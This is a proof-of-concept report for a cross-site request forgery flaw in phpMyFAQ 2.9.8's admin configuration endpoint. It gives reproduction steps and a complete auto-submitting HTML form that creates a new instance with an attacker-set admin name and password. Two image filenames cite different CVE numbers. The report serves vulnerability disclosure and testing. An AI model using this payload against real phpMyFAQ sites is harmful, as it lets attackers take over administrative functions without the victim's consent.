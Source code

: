 # Vulnerability Type

Cross-Site Request Forgery

# Description

In phpMyFaq before 2.9.9, there is CSRF in admin/ajax.config.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpMyFAQ/
 - Version: 2.9.8
 - Tested on: Windows 10

 ## Exploit Description

phpMyFaq is vulnerable to a Cross-Site Request Forgery (CSRF) attack that allows an attacker to create new instances without user consent.

 ## Steps to Reproduce

1. Save the following code as `poc.html`.
2. Log in phpmyfaq, and open the file in the same browser.
3. The following outcome will occur:
4. Begin: 

![Image](assets/CVE-2017-15801-1.png)

5. After: 

![Image](assets/CVE-2017-15808-2.png)

 ## Proof Of Concept

```
<html>
  <body>
    <form action="http://phpmyfaq/admin/index.php" method="GET">
      <input type="hidden" name="action" value="ajax">
      <input type="hidden" name="ajax" value="config">
      <input type="hidden" name="ajaxaction" value="add_instance">
      <input type="hidden" name="url" value="malicious">
      <input type="hidden" name="instance" value="malicious_instance">
      <input type="hidden" name="comment" value="CSRF Test">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="admin" value="attacker">
      <input type="hidden" name="password" value="password123">
      <input type="submit" value="Submit request">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

